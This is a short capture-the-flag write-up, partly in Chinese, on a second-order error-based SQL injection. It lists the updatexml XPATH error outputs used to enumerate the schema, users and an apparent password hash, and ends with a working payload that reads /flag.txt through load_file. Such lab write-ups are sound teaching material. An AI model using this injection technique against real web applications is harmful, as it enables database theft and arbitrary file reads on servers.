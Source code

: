 双重注入


schema

```

errorXPATH syntax error: '~information_schema,ctftraining,mysql,performance_schema,ctfusers~'
```

ctfusers库中表

```
errorXPATH syntax error: '~user~'
```

ctftraining表中字段

```
errorXPATH syntax error: '~FLAG_TABLE,news,users~'
```

终于逮到你

```
errorXPATH syntax error: '~FLAG_COLUMN~'
```


news:

```
errorXPATH syntax error: '~id,title,content,time~'

```

ctftraining.users:
```
id,username,password,ip,time


username:
errorXPATH syntax error: '~admin,guest,virink~'

a4346e75cc1dd161a8d57f3b2d5d82d0
```


content 1:

```
The domestic dog (Canis lupus familiaris when considered a subspecies of the wolf or Canis familiaris when considered a distinct species)[4] is a member of the genus Canis (canine

errorXPATH syntax error: '~s), which forms part of the wo~'
errorXPATH syntax error: '~lf-like canids,[5] and is the ~'

errorXPATH syntax error: '~most widely abundant terrestri~'
errorXPATH syntax error: '~al carnivore.,The cat or domes~'
errorXPATH syntax error: '~tic cat (Felis catus) is a sma~'
errorXPATH syntax error: '~ll carnivorous mammal.[1][2] I~'



errorXPATH syntax error: '~ four-chambered heart, and a st'
errorXPATH syntax error: '~trong yet lightweight skeleton.'
errorXPATH syntax error: '~.,Flag is in the database but not here.'



上述都属于误导，事实上flag在根目录

flag is in the /flag.txt

flag{56f1b68a-cbea-40a4-9491-0a
b68a-cbea-40a4-9491-0a7a7b5b31
0a7a7b5b31c7}


flag{56f1b68a-cbea-40a4-9491-0a7a7b5b31c7}

payload:

```
user_name=1&phone=1&address=' and updatexml(0,concat(0x7e,(select load_file("/flag.txt")) ,0x7e)  ,0)#
```